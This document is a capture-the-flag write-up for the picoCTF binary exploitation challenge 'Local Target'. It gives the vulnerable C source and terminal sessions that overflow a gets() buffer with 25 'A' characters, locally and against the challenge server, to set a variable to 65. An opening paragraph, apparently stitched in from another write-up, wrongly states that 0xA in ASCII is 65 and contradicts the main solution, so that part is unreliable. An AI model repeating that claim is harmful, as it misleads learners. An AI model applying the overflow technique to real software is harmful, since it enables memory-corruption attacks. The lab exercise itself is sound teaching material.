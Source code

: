 # Local Target
#   Mediums 
In this problem, by reading the source code, we know that if num == 65, the function will print the flag. Therefore, the goal is to trick the binary into assigning num, the value 65.

By examining the source code, we can see that there is a buffer overflow problem in the binary. We can overflow the input array and write to the num variable. Since the input array is 16 bytes long, we need to craft an input such that it overflows the input and contains 0xA in the end. This is because 0xA in ASCII is 65.

Thus, by supplying this payload to the binary `123456789123456789123456A`, we get the flag!



- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 100
Tags: picoGym Exclusive, Binary Exploitation, gets
Author: OVERTHEWIRE.ORG / LT 'SYREAL' JONES

Description:

Smash the stack
Can you overflow the buffer and modify the other local variable? 

The program is available here. You can view source here. And connect with it using:
`nc saturn.picoctf.net 56895`
 
Hints:
1. Do anything you can to change num.
2. When you change num, view the value as hexadecimal.
```
Challenge link: [https://play.picoctf.org/practice/challenge/399](https://play.picoctf.org/practice/challenge/399)

## Solution

### Study the source code

The `main` function of the program look like this
```c
int main(){
  FILE *fptr;
  char c;

  char input[16];
  int num = 64;
  
  printf("Enter a string: ");
  fflush(stdout);
  gets(input);
  printf("\n");
  
  printf("num is %d\n", num);
  fflush(stdout);
  
  if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }

    // Read contents from file
    c = fgetc(fptr);
    while (c != EOF)
    {
        printf ("%c", c);
        c = fgetc(fptr);
    }
    fflush(stdout);

    printf("\n");
    fflush(stdout);
    fclose(fptr);
    exit(0);
  }
  
  printf("Bye!\n");
  fflush(stdout);
}
```

Our mission is to change the local variable `num` with a value of 64 to a value of 65.
This can easily be done since the `gets` function doesn't have any length restrictions.
So if we input more than the memory reserved for the input, the 16-byte variable `input`,  
`num` will be overwritten.

### Create an "exploit" and verify it locally

The `gets` function reads the input as text. What character should we overwrite with?
The ASCII value of decimal 65 corresponds to 'A'.
```bash
┌──(kali㉿kali)-[/picoCTF/picoGym/Binary_Exploitation/Local_Target]
└─$ python -c "print(chr(65))"
A
```

We probably could getway with inputting say 64 A:s but let's find out specifically how many A:s  
are needed to overwrite `num`. This usually isn't as easy as 16+1 A:s due to the compiler's  
stack alignment etc.

Let's use Python to print A:s and start with say 22 (something a bit higher than 16+1) of them.  
Then we increase the number of A:s step by step until `num` is changed.
```bash
┌──(kali㉿kali)-[/picoCTF/picoGym/Binary_Exploitation/Local_Target]
└─$ python -c "print('A'*22)" | ./local-target
Enter a string: 
num is 64
Bye!

┌──(kali㉿kali)-[/picoCTF/picoGym/Binary_Exploitation/Local_Target]
└─$ python -c "print('A'*23)" | ./local-target
Enter a string: 
num is 64
Bye!

┌──(kali㉿kali)-[/picoCTF/picoGym/Binary_Exploitation/Local_Target]
└─$ python -c "print('A'*24)" | ./local-target
Enter a string: 
num is 0
Bye!

┌──(kali㉿kali)-[/picoCTF/picoGym/Binary_Exploitation/Local_Target]
└─$ python -c "print('A'*25)" | ./local-target
Enter a string: 
num is 65
You win!
Cannot open file.
```

So 25 A:s are needed to overwrite `num`.
The error message is due to the fact that there is no 'flag.txt' file in the current directory.

### Connect to the server and get the flag

Finally, let's send our tiny exploit to the server
```bash
┌──(kali㉿kali)-[/picoCTF/picoGym/Binary_Exploitation/Local_Target]
└─$ python -c "print('A'*25)" | nc saturn.picoctf.net 56895  
Enter a string: 
num is 65
You win!
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [Wikipedia - Buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow)
